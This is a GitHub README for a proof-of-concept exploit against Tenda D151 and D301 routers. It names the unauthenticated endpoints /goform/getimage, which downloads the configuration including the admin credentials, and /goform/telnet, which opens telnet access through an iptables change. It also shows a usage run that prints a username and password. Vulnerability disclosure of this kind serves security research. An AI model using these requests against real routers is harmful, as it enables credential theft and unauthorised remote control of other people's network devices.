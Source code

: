 # Tenda D151 D301 exploit (Proof of Concept)


__Exploit Title__: Tenda D151 & D301 - Unauthenticated configuration download (login included)


- Exploit Author: BenChaliah

- Vendor Homepage: https://www.tendacn.com

- Software Link: https://www.tendacn.com/us/download/detail-3331.html

- Versions:    
  - D301 1.2.11.2_EN
  - D301 V2.0 50.22.1.8_EN
  - D151 V2.0 50.21.1.5_EN


#### Description

This exploits allows for the download of the current router config including the admin login, just by requesting `{IP}/goform/getimage`, you can also activate telnet service by requesting `/goform/telnet` (the service is already on by default, but this will execute an `iptable` command allowing access).

⚠️ Telnet activation issue exists in many other tenda devices too.

The configuration exists in the last part of the downloaded firmware image.



__Usage__ (Python 2.7):

```shell
$ python exploit.py http://192.168.1.1
        _  _
  ___ (~ )( ~)
 /   \_\ \/ /   
|   D_ ]\ \/  -- By BenCh@li@h
|   D _]/\ \  -- github.com/BenChaliah
 \___/ / /\ \
      (_ )( _)
          

[!] Downloading config
	username: admin
	password: testpass
```
